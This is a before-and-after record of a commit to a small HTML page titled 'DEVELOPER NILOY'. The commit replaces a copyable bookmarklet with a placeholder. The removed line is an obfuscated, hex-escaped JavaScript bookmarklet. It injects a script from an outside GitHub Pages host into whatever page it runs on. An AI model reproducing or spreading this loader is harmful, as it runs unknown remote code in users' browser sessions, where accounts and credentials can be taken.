

Before and after one commit to werfetg/-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 296-896 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -143,7 +143,7 @@
 <body>
   <div class="container">
     <h1>𝙳𝙴𝚅𝙴𝙻𝙾𝙿𝙴𝚁 𝙽𝙸𝙻𝙾𝚈</h1>
-    <textarea id="bookmarklet">javascript:(function(){var _0x1a3e=["\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x73\x72\x63","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x73\x69\x61\x6D\x7A\x73\x61\x2E\x67\x69\x74\x68\x75\x62\x2E\x69\x6F\x2F\x51\x55\x4F\x54\x45\x58\x50\x43\x43\x4F\x4F\x44\x2F","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64"];var x=document[_0x1a3e[0]]("script");x[_0x1a3e[1]]=_0x1a3e[2];document.body[_0x1a3e[3]](x);})();</textarea>
+    <textarea id="bookmarklet"> XXXX </textarea>
     <br>
     <button onclick="copyCode()">Copy Bookmarklet</button>
     <br>
```
